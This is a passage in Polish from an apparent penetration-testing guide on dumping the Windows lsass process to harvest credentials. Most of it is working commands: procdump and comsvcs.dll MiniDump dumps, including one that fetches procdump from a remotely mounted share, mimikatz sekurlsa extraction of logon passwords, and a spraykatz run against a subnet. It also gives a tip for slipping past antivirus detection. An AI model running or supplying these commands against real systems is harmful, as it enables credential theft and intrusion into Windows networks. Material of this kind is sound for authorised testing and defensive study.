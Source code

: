### Procdump + Mimikatz

Ponieważ **Procdump z** [**SysInternals** ](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite)**jest legalnym narzędziem Microsoft**, nie jest wykrywany przez Defendera.\
Możesz użyć tego narzędzia do **zrzutu procesu lsass**, **pobrania zrzutu** i **wyodrębnienia** **poświadczeń lokalnie** ze zrzutu.

{% code title="Dump lsass" %}
```bash
#Local
C:\procdump.exe -accepteula -ma lsass.exe lsass.dmp
#Remote, mount https://live.sysinternals.com which contains procdump.exe
net use Z: https://live.sysinternals.com
Z:\procdump.exe -accepteula -ma lsass.exe lsass.dmp
```
{% endcode %}

{% code title="Extract credentials from the dump" %}

{% endcode %}

{% code title="Extract credentials from the dump" %}
```c
//Load the dump
mimikatz # sekurlsa::minidump lsass.dmp
//Extract credentials
mimikatz # sekurlsa::logonPasswords
```
{% endcode %}

Ten proces jest wykonywany automatycznie za pomocą [SprayKatz](https://github.com/aas-n/spraykatz): `./spraykatz.py -u H4x0r -p L0c4L4dm1n -t 192.168.1.0/24`

**Uwaga**: Niektóre **AV** mogą **wykrywać** jako **złośliwe** użycie **procdump.exe do zrzutu lsass.exe**, ponieważ **wykrywają** ciąg **"procdump.exe" i "lsass.exe"**. Dlatego **bardziej ukryte** jest **przekazanie** jako **argument** **PID** lsass.exe do procdump **zamiast** **nazwy lsass.exe.**

### Zrzucanie lsass za pomocą **comsvcs.dll**

DLL o nazwie **comsvcs.dll** znajdujący się w `C:\Windows\System32` jest odpowiedzialny za **zrzucanie pamięci procesu** w przypadku awarii. Ta DLL zawiera **funkcję** o nazwie **`MiniDumpW`**, zaprojektowaną do wywoływania za pomocą `rundll32.exe`.\
Pierwsze dwa argumenty są nieistotne, ale trzeci jest podzielony na trzy komponenty. Pierwszy komponent to ID procesu do zrzutu, drugi to lokalizacja pliku zrzutu, a trzeci komponent to ściśle słowo **full**. Nie ma innych opcji.\
Po przeanalizowaniu tych trzech komponentów, DLL angażuje się w tworzenie pliku zrzutu i przenoszenie pamięci określonego procesu do tego pliku.\
Wykorzystanie **comsvcs.dll** jest możliwe do zrzucania procesu lsass, eliminując potrzebę przesyłania i uruchamiania procdump. Ta metoda jest szczegółowo opisana na [https://en.hackndo.com/remote-lsass-dump-passwords/](https://en.hackndo.com/remote-lsass-dump-passwords).

Do wykonania używa się następującego polecenia:
```bash
rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump <lsass pid> lsass.dmp full
```
**Możesz zautomatyzować ten proces za pomocą** [**lsassy**](https://github.com/Hackndo/lsassy)**.**
